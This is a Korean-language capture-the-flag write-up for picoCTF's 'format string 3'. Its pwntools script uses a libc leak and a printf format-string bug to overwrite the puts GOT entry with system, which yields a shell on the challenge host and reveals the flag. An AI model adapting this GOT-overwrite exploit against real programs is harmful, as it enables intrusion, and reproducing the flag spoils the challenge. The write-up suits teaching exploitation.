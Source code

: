 # [format string 3](https://play.picoctf.org/practice/challenge/449?category=6&originalEvent=73&page=1)

**Description**
> This program doesn't contain a win function. How can you win?
<br />

**Source Code:**
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```
<br />

**Binary Protections:**
```yaml
format-string-3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter./ld-linux-x86-64.so.2,
for GNU/Linux 3.2.0, BuildID[sha1]=54e1c4048a725df868e9a10dc975a46e8d8e5e92, not stripped

[*] '/home/kali/pico/format_string_3/format-string-3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. setvbuf 주소 제공
2. print(buf) 호출 -> FSB 취약점 발생
3. puts("/bin/sh")
4. Partial RELRO
```
취합된 정보를 토대로 공격 과정을 정리하면, 문제에서 제공되는 `setvbuf`의 주소를 통해 `system`의 실제 주소를 계산할 수 있습니다. 바이너리는 Partial RELRO 상태이므로 GOT 조작이 가능합니다. 또한 `print(buf)` 호출 시 FSB 취약점이 발생합니다. 따라서 해당 취약점을 활용하여 `puts`의 GOT 엔트리를 `system`의 주소로 덮어쓴다면, 이후 `puts(normal_string)` 호출이 `system("/bin/sh")`로 이어져 최종적으로 쉘을 획득할 수 있을 것입니다.
<br />
<br />

### 1. `system` 주소 구하기
```bash
$ readelf -s libc.so.6 | grep "setvbuf"
  1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
$ readelf -s libc.so.6 | grep "system"
  1511: 000000000004f760    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```
위 오프셋을 가지고 libc_base, system 주소를 계산할 수 있습니다.`python`

```python
from pwn import *

p = process("./format-string-3")

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process '/home/kali/pico/format_string_3/format-string-3': pid 1111
[*] libc_base:  0x7f255443a000
[*] libc_system:  0x7f2554489760
[*] Switching to interactive mode
$
```
<br />

### 2. 메모리 유출로 오프셋 구하기
```bash
$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fad387c23f0
AAAAAAAA%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141
/bin/sh
```
`AAAAAAAA`의 오프셋은 파이썬으로 자동화하여 다음과 같이 구할 수 있습니다.
```python
data = ("AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141")
data = data.split("|")

target = "0x4141414141414141"

if target in data:
    idx = data.index(target)
    print(f"offset: {idx+1}")
```
```bash
$ python3 test1.py
offset: 38
```
<br />

### 3. GOT 덮어쓰기
```yaml
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/kali/pico/format_string_3/format-string-3:
GOT protection: Partial RELRO | Found 4 GOT entries passing the filter
[0x404018] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
...
```
pwndbg로 확인할 결과 puts의 got 주소는 0x404018입니다. 획득환 정보를 가지고 페이로드를 작성할 수 있습니다.

```python
from pwn import *

context.arch = "amd64"

p = process("./format-string-3")
# p = remote("rhea.picoctf.net", 51563)

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

pay = fmtstr_payload(38, {0x404018:libc_system})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process './format-string-3': pid 1336
[*] libc_base:  0x7f89a0dd4000
[*] libc_system:  0x7f89a0e23760
[*] Switching to interactive mode
$
                                                                                               c                              \x8b         \xf0                      \x01                                                                 \x00                                                                                    \x00aaaaba\x18@@$
$ pwd
/home/kali/pico/format_string_3
```
<br />

## FLAG
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 51563: Done
[*] libc_base:  0x7a9afecb0000
[*] libc_system:  0x7a9afecff760
[*] Switching to interactive mode
$
                                                                                               c                         \x8b                                                                                    \x01                                       \x00      \x00aaaabaa\x18@@$
$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_7a2369d3}$
```
